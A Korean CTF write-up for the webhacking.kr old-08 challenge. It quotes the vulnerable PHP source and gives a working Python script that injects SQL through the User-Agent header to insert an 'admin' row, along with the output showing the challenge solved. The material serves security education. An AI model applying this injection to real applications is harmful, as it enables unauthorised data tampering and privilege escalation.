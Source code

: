 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-16-26-44.png)


# **Write-Up**

view-source를 클릭하여 소스를 확인하면, User-Agent의 값을 select하고 insert함을 알 수 있다. select 시에는 addslashes로 SQLi를 어느정도 방어하지만 insert query는 아무 필터링이 없다.

```php
... 생략 ...
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
... 생략 ...
$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
... 생략 ...
```

agent에 hello','999','admin'),('world라는 값을넣으면 values('hello','999','admin'),('world','1.1.1.1','guest')과 같은 쿼리가 만들어지고, id가 admin이라는 행이 추가될 것이다.

```python
header  = {'User-Agent':'hello\',\'999\',\'admin\'),(\'world', 'Cookie': 'PHPSESSID=tororborfs23bri6hv834gnlor'}
```

이 후에, User-Agent값을 agent로 넣었던 값(hello)으로 설정하면 select 구문에서 id가 admin이 뽑히게 될 것이다.

```python
import urllib.request

url     = 'https://webhacking.kr/challenge/web-08/'
header  = {'User-Agent':'hello\',\'999\',\'admin\'),(\'world', 'Cookie': 'PHPSESSID=tororborfs23bri6hv834gnlor'}
request = urllib.request.Request(url, headers=header)
response= urllib.request.urlopen(request)
print(response.read().decode())

header  = {'User-Agent':'hello', 'Cookie': 'PHPSESSID=tororborfs23bri6hv834gnlor'}
request = urllib.request.Request(url, headers=header)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
hi <b>admin</b><p><script>alert('old-08 Pwned!');</script><hr>old-08 Pwned. You got 35point. Congratz!<hr><a href=./?view_source=1>view-source</a>
... 생략 ...
```